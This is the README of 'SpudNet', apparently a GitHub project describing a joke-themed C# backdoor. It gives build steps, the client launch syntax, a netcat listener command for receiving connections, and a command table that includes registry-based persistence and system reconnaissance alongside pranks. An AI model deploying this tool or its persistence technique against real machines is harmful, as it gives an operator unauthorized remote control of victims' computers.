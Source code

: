 # SpudNet
---
## Description
A Potato-themed backdoor developed in C#. 

![SpudNet](screenshots/spudnet.png)

## Requirements
- .NET Framework ≥ 4.7
- A Windows client running SpudBot.exe.
- A server listening for incomming connections. 

## Installation
- Download a copy of the Github repository.
- Open **SpudBot.Sln** within Visual Studio.
- Build the solution within Visual Studio. 

## Usage
On the client, launch **SpudBot.exe** with Command-line arguments pointing to the server you would like to connect too. 
```
SpudBot.exe "Server" "Port"
```
On the server, setup a listener to watch for inbound connections.
```
nc -lvp 5370 -k
```
The SpudNet framework contains built-in commands for the server to help *Spudify* the client.  

| Command | Description |
| --- | --- |
| help | Print out a list of Commands. |
| background | Update the Clients Desktop Background. |
| calc | Spawn an instance of calc.exe. |
| fact | Send the Client a Random SpudFact via Windows Notification. |
| music | Play the Client some Music: [The Potato Song](https://www.youtube.com/watch?v=q7uyKYeGPdE). |
| persistance | Copy SpudBot.exe to %AppData% and Update the Windows Registry to launch SpudBot.exe on Startup | |
| search | Search for Potatoes near the Client in a Web Browser. |
| status | Report the Status of the Connection |
| video | Download and Play a Video Recipe for the Client |
| whoami | Query System Information about the Client. |
| exit | Terminate the Existing Session and close SpudBot.exe for the Client. |
---

